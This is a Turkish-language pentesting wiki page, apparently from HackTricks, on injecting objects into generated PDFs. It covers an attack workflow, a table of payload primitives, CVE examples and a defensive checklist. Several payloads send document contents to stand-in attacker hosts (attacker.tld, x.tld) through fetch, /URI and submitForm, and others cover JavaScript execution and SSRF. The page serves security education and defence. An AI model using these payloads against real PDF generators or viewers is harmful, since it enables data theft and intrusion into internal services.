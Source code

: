 # PDF Injection

{{#include ../../banners/hacktricks-training.md}}

**Eğer girdiniz bir PDF dosyası içinde yansıtılıyorsa, JavaScript çalıştırmak, SSRF gerçekleştirmek veya PDF içeriğini çalmak için PDF verisi enjekte etmeyi deneyebilirsiniz.**
PDF sözdizimi son derece hoşgörülüdür – eğer girdinizi gömülü olduğu dizeden veya sözlükten çıkarabilirseniz, Acrobat/Chrome'un memnuniyetle ayrıştıracağı tamamen yeni nesneler (veya aynı nesnede yeni anahtarlar) ekleyebilirsiniz.
2024'ten itibaren bir dizi hata ödülü raporu, *bir kaçış karakteri olmayan parantez veya ters eğik çizginin tam script çalıştırmak için yeterli olduğunu* göstermiştir.

## TL;DR – Modern Saldırı İş Akışı (2024)
1. Oluşturulan PDF'de **(parantez dizesi)**, `/URI ( … )` veya `/JS ( … )` alanında sona eren herhangi bir kullanıcı kontrolündeki değeri bulun.
2. Dizeyi kapatmak için `) ` enjekte edin ve ardından aşağıdaki ilkelere birini ekleyin ve sözdizimini geçerli tutmak için başka bir açılış parantezi ile bitirin.
3. Kötü niyetli PDF'yi bir kurbanına (veya dosyayı otomatik olarak işleyen bir arka uç hizmetine – kör hatalar için harika) teslim edin.
4. Yüklemeniz PDF görüntüleyicide çalışır:
* Chrome / Edge → PDFium Sandbox
* Firefox → PDF.js (bkz. CVE-2024-4367)
* Acrobat → Tam JavaScript API (arbitrary dosya içeriklerini `this.getPageNthWord` ile dışarı aktarabilir)

Örnek (not bağlantısı kaçırma):
```pdf
(https://victim.internal/) ) /A << /S /JavaScript /JS (app.alert("PDF pwned")) >> /Next (
```
*İlk `)` orijinal URI dizesini kapatır, ardından kullanıcı bağlantıya tıkladığında Acrobat'ın gerçekleştireceği yeni bir **Action** sözlüğü ekleriz.*

## Kullanışlı Enjeksiyon Primitifleri
| Hedef | Yük Paylaşım Parçası | Notlar |
|------|-----------------|-------|
| **Açılışta JavaScript** | `/OpenAction << /S /JavaScript /JS (app.alert(1)) >>` | Belge açıldığında anında çalışır (Acrobat'ta çalışır, Chrome'da çalışmaz). |
| **Bağlantıda JavaScript** | `/A << /S /JavaScript /JS (fetch('https://attacker.tld/?c='+this.getPageNumWords(0))) >>` | `/Link` anotasyonunu kontrol ediyorsanız PDFium & Acrobat'ta çalışır. |
| **Kör veri sızdırma** | `<< /Type /Action /S /URI /URI (https://attacker.tld/?leak=)` | İçerik çalmak için JS içinde `this.getPageNthWord` ile birleştirin. |
| **Sunucu Tarafı SSRF** | Yukarıdakiyle aynı ancak dahili bir URL'yi hedefleyin – PDF'nin `/URI`'yi dikkate alan arka ofis hizmetleri tarafından render edildiğinde harika. |
| **Yeni nesneler için Satır Sonu** | `\nendobj\n10 0 obj\n<< /S /JavaScript /JS (app.alert(1)) >>\nendobj` | Kütüphane yeni satır karakterlerini enjekte etmenize izin veriyorsa tamamen yeni nesneler oluşturabilirsiniz. |

## Kör Sayım Hilesi
Gareth Heyes (PortSwigger), bilinmeyen bir belgedeki her nesneyi sayan bir tek satırlık kod yayınladı – oluşturulan PDF'yi göremediğinizde kullanışlıdır:
```pdf
) /JS (for(i in this){try{this.submitForm('https://x.tld?'+i+'='+this[i])}catch(e){}}) /S /JavaScript /A << >> (
```
Kod, Acrobat DOM'u üzerinde döngü yapar ve her özellik/değer çifti için dışa açık istekler gönderir, size dosyanın *JSON-benzeri* bir dökümünü verir. Tam teknik için “Portable Data **ex**Filtration” adlı beyaz belgeye bakın.

## Gerçek Dünya Hataları (2023-2025)
* **CVE-2024-4367** – Firefox’un PDF.js sürüm 4.2.67 öncesinde, hazırlanmış bir `/JavaScript` eylemi ile kumandayı aşan rastgele JavaScript yürütmesi.
* **Hata ödülü 2024-05** – Büyük bir fintech, `/URI`'de yer alan müşteri tarafından sağlanan fatura notlarına izin verdi; `file:///` URI kullanarak iç metadata sunucusuna gösterilen SSRF sonrası rapor $10k ödendi.
* **CVE-2023-26155** – Sanitasyona tabi tutulmamış PDF yolu üzerinden `node-qpdf` komut enjeksiyonu, PDF katmanından *önce* ters eğik çizgilerin ve parantezlerin kaçışının önemini gösterir.

## Savunma Hile Sayfası
1. **Asla ham kullanıcı girdisini** `(`…`)` dizeleri veya adları içinde birleştirmeyin. PDF spesifikasyonunun §7.3'üne göre `\`, `(`, `)` karakterlerini gerektiği gibi kaçırın veya hex dizeleri `<...>` kullanın.
2. Bağlantılar oluşturuyorsanız, *tamamen* URL kodlaması yaptığınız `/URI (https://…)` tercih edin; istemci görüntüleyicilerinde `javascript:` şemalarını engelleyin.
3. PDF'leri son işlemden geçirirken `/OpenAction`, `/AA` (ek eylemler), `/Launch`, `/SubmitForm` ve `/ImportData` sözlüklerini temizleyin veya doğrulayın.
4. Sunucu tarafında, güvenilmeyen PDF'leri JavaScript ve dış eylemleri kaldıran bir *başsız dönüştürücü* (örneğin, qpdf –decrypt –linearize) ile işleyin.
5. PDF görüntüleyicilerini güncel tutun; PDF.js < 4.2.67 ve Acrobat Reader, Temmuz 2024 yamanmadan önce basit kod yürütmesine izin verir.

## Referanslar
* Gareth Heyes, “Portable Data exFiltration – XSS for PDFs”, PortSwigger Research (Mayıs 2024 güncellendi). <https://portswigger.net/research/portable-data-exfiltration>
* Dawid Ryłko, “CVE-2024-4367: Arbitrary JavaScript Execution in PDF.js” (Nisan 2024). <https://dawid.dev/sec/cve-2024-4367-arbitrary-javascript-execution-in-pdf-js>
{{#include ../../banners/hacktricks-training.md}}
